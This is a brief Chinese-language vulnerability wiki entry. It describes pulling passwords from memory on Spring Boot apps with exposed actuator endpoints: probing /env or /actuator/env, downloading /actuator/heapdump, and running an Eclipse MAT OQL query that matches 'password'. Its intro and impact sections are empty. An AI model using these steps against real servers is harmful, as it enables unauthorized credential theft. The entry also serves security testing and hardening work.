 Spring Boot 提取内存密码
========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

> 访问如下路径如果有数据说明存在漏洞

**Spring Boot 1.x版本**`http://www.0-sec.org:8090/env`

**Spring Boot 2.x版本**`http://www.0-sec.org:8090/actuator/env`![2.png](/Users/aresx/Documents/VulWiki/.resource/SpringBoot提取内存密码/media/rId24.png)

> 当发现存在未授权漏洞时，可以直接访问 `/actuator/heapdump`
> 下载内存，提取密码

`http://www.0-sec.org:8090/actuator/heapdump`

> heapdump文件下载完成之后可以利用Eclipse Memory Analyzer 来解析内存文件

    http://www.eclipse.org/mat/downloads.php

> 匹配内存中password字符串，并不一定能匹配完，可以通过`/actuator/env`得到的`JDBC`信息再来匹配关键字

`select * from java.util.Hashtable$Entry x WHERE (toString(x.key).contains("password"))`

![1.png](/Users/aresx/Documents/VulWiki/.resource/SpringBoot提取内存密码/media/rId25.png)
